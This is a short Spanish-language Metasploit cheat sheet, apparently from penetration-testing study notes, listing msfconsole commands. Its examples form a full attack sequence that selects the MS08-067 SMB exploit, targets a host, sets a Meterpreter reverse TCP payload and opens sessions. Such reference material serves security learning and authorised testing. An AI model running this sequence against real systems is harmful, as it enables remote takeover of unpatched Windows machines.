 ### **Hacking Web/LFI y RCE/Metasploit.md**

# Metasploit

## Descripción

`Metasploit` es un framework de código abierto para desarrollar, probar y ejecutar exploits contra sistemas remotos. Ofrece una amplia gama de módulos para explotación, payloads, scanners y herramientas auxiliares que facilitan las pruebas de penetración y la investigación de seguridad.

## Uso

```bash
msfconsole
```

### Opciones principales

- `use`: Selecciona un módulo específico para usar.
- `set`: Configura opciones para el módulo seleccionado.
- `exploit`: Ejecuta el exploit configurado.
- `search`: Busca módulos por nombre o descripción.
- `info`: Muestra información detallada sobre un módulo.
- `show`: Lista módulos disponibles (e.g., show exploits, show payloads).
- `sessions`: Gestiona sesiones activas de exploits.
- `exit`: Sale de Metasploit.

## Ejemplos

- Iniciar Metasploit:
  
  ```bash
  msfconsole
  ```

- Buscar un exploit para Windows:
  
  ```bash
  search type:exploit platform:windows
  ```

- Seleccionar un módulo de exploit:
  
  ```bash
  use exploit/windows/smb/ms08_067_netapi
  ```

- Configurar la opción RHOST (host remoto):
  
  ```bash
  set RHOST 192.168.1.10
  ```

- Configurar el payload:
  
  ```bash
  set PAYLOAD windows/meterpreter/reverse_tcp
  ```

- Ejecutar el exploit:
  
  ```bash
  exploit
  ```

- Listar sesiones activas:
  
  ```bash
  sessions
  ```
